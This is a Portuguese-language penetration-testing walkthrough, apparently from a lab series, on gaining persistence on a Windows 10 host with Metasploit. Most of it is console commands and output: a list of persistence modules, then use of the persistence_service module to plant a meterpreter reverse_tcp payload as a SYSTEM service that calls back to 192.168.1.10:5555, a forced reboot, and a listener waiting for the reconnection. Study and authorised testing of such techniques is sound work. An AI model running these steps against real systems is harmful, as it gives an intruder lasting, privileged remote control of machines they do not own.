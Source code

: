 # Persistência

Objetivo: **garantir que o atacante (no caso, o pentester)** consiga **retomar o acesso ao sistema comprometido mesmo após um reboot, logoff do usuário ou encerramento da sessão inicial**.

## Procura e seleção do exploit
```
msf > search persistence -S windows

Matching Modules
================

   #   Name                                                       Disclosure Date  Rank       Check  Description
   -   ----                                                       ---------------  ----       -----  -----------
   1   exploit/windows/local/ps_wmi_exec                          2012-08-19       excellent  No     Authenticated WMI Exec via Powershell
   9   exploit/windows/local/linqpad_deserialization_persistence  2024-12-03       normal     Yes    LINQPad Deserialization Exploit
   24    \_ target: Windows                                       .                .          .      .
   25  exploit/windows/local/vss_persistence                      2011-10-21       excellent  No     Persistent Payload in Windows Volume Shadow Copy
   28  post/windows/manage/sshkey_persistence                     .                good       No     SSH Key Persistence
   36  post/windows/manage/sticky_keys                            .                normal     No     Sticky Keys Persistence Module
   39  exploit/windows/local/wmi_persistence                      2017-06-06       normal     No     WMI Event Subscription Persistence
   40  post/windows/gather/enum_ad_managedby_groups               .                normal     No     Windows Gather Active Directory Managed Groups
   41  post/windows/manage/persistence_exe                        .                normal     No     Windows Manage Persistent EXE Payload Installer
   42  exploit/windows/local/s4u_persistence                      2013-01-02       excellent  No     Windows Manage User Level Persistent Payload Installer
   43  exploit/windows/local/persistence                          2011-10-19       excellent  No     Windows Persistent Registry Startup Payload Installer
   44  exploit/windows/local/persistence_service                  2018-10-20       excellent  No     Windows Persistent Service Installer
   45  exploit/windows/local/registry_persistence                 2015-07-01       excellent  Yes    Windows Registry Only Persistence
   46  exploit/windows/local/persistence_image_exec_options       2008-06-28       excellent  No     Windows Silent Process Exit Persistence


Interact with a module by name or index. For example info 51, use 51 or use exploit/linux/local/motd_persistence
```
Neste exemplo iremos usar o **exploit/windows/local/persistence_service**

> Description:
>  This Module will generate and upload an executable to a remote host, next will make it a persistent service.
>  It will create a new service which will start the payload whenever the service is running. Admin or system privilege is required.
```
msf > use exploit/windows/local/persistence_service
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```
## Configuração
```
msf exploit(windows/local/persistence_service) > show options

Module options (exploit/windows/local/persistence_service):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   REMOTE_EXE_NAME                       no        The remote victim name. Random string as defa
                                                   ult.
   REMOTE_EXE_PATH                       no        The remote victim exe path to run. Use temp d
                                                   irectory as default.
   RETRY_TIME           5                no        The retry time that shell connect failed. 5 s
                                                   econds as default.
   SERVICE_DESCRIPTION                   no        The description of service. Random string as
                                                   default.
   SERVICE_NAME                          no        The name of service. Random string as default
                                                   .
   SESSION                               yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none
                                        )
   LHOST     192.168.1.10     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows
```
Verificando a sessão aberta com privilégio system (requisito)
```
msf exploit(windows/local/persistence_service) > show sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ WIN10-  192.168.1.10:5555 -> 192.168.
                                     22H2                          1.41:49778 (192.168.1.41)
```
Engajando a sessão
```
msf exploit(windows/local/persistence_service) > set SESSION 2
SESSION => 2
```
A porta de comunicação é a 5555 (ver 02 - Escalando privilégio). É preciso alterá-la
```
msf exploit(windows/local/persistence_service) > set LPORT 5555
LPORT => 5555
```
## Execução
```
msf exploit(windows/local/persistence_service) > run
[*] Started reverse TCP handler on 192.168.1.10:5555 
[*] Running module against WIN10-22H2
[+] Meterpreter service exe written to C:\Users\user\AppData\Local\Temp\qmkgqXB.exe
[*] Creating service sTdgb
[*] Cleanup Meterpreter RC File: /home/OpsShadow/.msf4/logs/persistence/WIN10-22H2_20250904.3035/WIN10-22H2_20250904.3035.rc
[*] Sending stage (177734 bytes) to 192.168.1.41
[*] Meterpreter session 3 opened (192.168.1.10:5555 -> 192.168.1.41:49797) at 2025-09-04 20:30:38 -0300
```
Aberta a sessão 3 no meterpreter. Caso o sistema alvo seja reinicializado, poderemos reconectar diretamente a conta SYSTEM.
```
msf exploit(windows/local/persistence_service) > show sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ WIN10-  192.168.1.10:5555 -> 192.168.
                                     22H2                          1.41:49778 (192.168.1.41)
  3         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ WIN10-  192.168.1.10:5555 -> 192.168.
                                     22H2                          1.41:49797 (192.168.1.41)
```
Executando um reboot da máquina alvo:
```
meterpreter > reboot
Rebooting...
meterpreter > [*] 192.168.1.41 - Meterpreter session 2 closed.  Reason: Died
[*] 192.168.1.41 - Meterpreter session 3 closed.  Reason: Died
```
```
msf exploit(windows/local/persistence_service) > show sessions

Active sessions
===============

No active sessions.
```
Nenhuma sessão ativa, uma vez que a máquina desligou...

Contudo, com a execução do listenner, quando a máquina alvo se reiniciar, teremos acesso com privilégio SYSTEM.
```
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.1.10:5555 


